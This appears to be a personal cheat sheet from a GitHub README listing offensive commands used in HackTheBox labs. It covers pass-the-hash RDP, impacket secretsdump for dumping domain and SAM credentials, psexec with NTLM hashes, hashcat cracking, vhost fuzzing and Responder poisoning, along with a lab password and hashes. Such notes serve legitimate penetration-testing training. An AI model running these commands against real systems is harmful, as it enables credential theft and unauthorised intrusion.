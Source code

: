 # Basic-Commands

Below are just examples of how to execute each of the commands that I would normally use.

## XfreeRDP

```
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/p3ta/ /dynamic-resolution
```

```
xfreerdp /v:10.129.203.122 /u:administrator /pth:'bac9dc5b7b4bec1d83e0e9c04b477f26' /drive:linux,/home/p3ta/HTB /dynamic-resolution
```

## Impacket

### Secretsdump

```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```

```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit 
```

```
impacket-secretsdump local -system registry/SYSTEM -ntds Active\ Directory/ntds.dit
```

```
impacket-secretsdump local -system SYSTEM -sam SAM
```

### PSexec

```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```

## Hashcat

NTLM

```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

## Gobuster

VHOST

```
gobuster vhost -u mailroom.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## FFUF

VHOST

```
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://mailroom.htb/ -H "Host: FUZZ.mailroom.htb" -fs 7748
```

## Responder

Location: /tools/responder

```
sudo ./Responder.py -wrf -v -I tun0
```
